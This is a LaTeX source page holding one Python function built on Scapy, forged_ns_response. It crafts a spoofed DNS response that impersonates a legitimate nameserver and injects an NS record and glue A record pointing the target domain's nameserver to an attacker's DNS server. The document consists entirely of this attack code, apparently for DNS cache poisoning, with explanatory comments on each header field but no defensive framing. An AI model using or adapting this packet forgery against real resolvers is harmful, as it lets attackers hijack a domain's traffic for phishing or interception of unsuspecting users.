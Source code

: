 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{center}
\begin{lstlisting}
def forged_ns_response(id, target_domain, target_ip, attacker_dns_ip, known_ns_domain, 
	known_ns_ip, dst_port):
    response = Ether() / IP(src=known_ns_ip, dst=target_ip) / UDP(dport=dst_port) / DNS(
        id=id,  # Query ID / transaction id
        qr=1,  # QR (Query / Response) 1=response
        opcode=0,  # Set by client to 0 for a standard query, 0:"QUERY",1:"IQUERY",2:"STATUS"
        aa=0,  # Set to 1 in a server response if this dns_response is Authoritative, 0 if not.
        tc=0,
        # Set to 1 in a server response if the dns_response can't fit in the 512-byte limit of a 
        # UDP packet response
        rd=1,  # RD (Recursion Desired)
        ra=0,  # RA (Recursion Available), set by server: will (1) or won't (0) support recursion
        z=0,  # This is reserved and must be zero
        rcode=0,  # Response code from the server: indicates success or failure
        # 0:"ok", 1:"format-error", 2:"server-failure", 3:"name-error", 4:"not-implemented", 
        # 5:"refused"
        qdcount=1,  # Question record count
        ancount=0,  # Answer count
        nscount=1,  # authority count
        arcount=1,  # additional record count
        # AD and CD bits are defined in RFC 2535
        ad=0,  # # Authentic Data
        cd=0,  # Checking Disabled (0/1)
        # DNS Question Record
        qd=DNSQR(qname=target_domain, qtype='A', qclass='IN'),
        # DNS Resource Record
        an=0,
        ns=DNSRR(rrname=target_domain, type='NS', rdata=known_ns_domain, ttl=253643),
        ar=DNSRR(rrname=known_ns_domain, type='A', rdata=attacker_dns_ip, ttl=253643)
    )
    return response
\end{lstlisting}
\end{center}
\end{document}
